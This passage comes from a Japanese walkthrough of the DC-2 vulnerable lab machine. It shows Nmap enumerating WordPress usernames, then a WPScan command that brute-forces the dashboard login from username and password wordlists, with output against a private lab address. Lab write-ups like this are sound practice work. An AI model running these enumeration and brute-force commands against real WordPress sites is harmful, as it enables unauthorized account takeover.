    * NSE(Nmap Scripting Engine)を使用した場合
        ```
        └──╼ $nmap --script http-wordpress-users $IP
        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-17 14:23 JST
        Nmap scan report for dc-2 (192.168.56.106)
        Host is up (0.0046s latency).
        Not shown: 999 filtered tcp ports (no-response)
        PORT   STATE SERVICE
        80/tcp open  http
        | http-wordpress-users: 
        | Username found: admin
        | Username found: tom
        | Username found: jerry
        |_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-users.limit'

        Nmap done: 1 IP address (1 host up) scanned in 6.02 seconds

        ```
3. <攻略>ではWordPressダッシュボードの認証を突破するためにHydraを用いました．HydraでHTTPフォームの認証を解析しようとするとコマンドが長くなるため，代わりにWPScanを用いてください

    * 参考にしたサイト
  
        https://tech.akat.info/?p=3397
    * コマンド
        ```
        >sudo wpscan --url http://dc-2/ --random-user-agent --usernames users.txt --passwords cewl.txt
        ```
        --usernamesオプションでユーザ名が列挙されたファイルを指定(-Uオプションで個別のユーザの指定もできる)

        --passwordsオプションでパスワード候補が列挙されたファイルを指定

    * 出力
        ```
        └──╼ $sudo wpscan --url http://dc-2/ --random-user-agent --usernames users.txt --passwords cewl.txt 
        _______________________________________________________________
                __          _______   _____
                \ \        / /  __ \ / ____|
                \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
                \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                    \  /\  /  | |     ____) | (__| (_| | | | |
                    \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                WordPress Security Scanner by the WPScan Team
                                Version 3.8.27
            Sponsored by Automattic - https://automattic.com/
            @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
        _______________________________________________________________

        [+] URL: http://dc-2/ [192.168.56.106]
        [+] Started: Sun Nov 17 14:41:01 2024
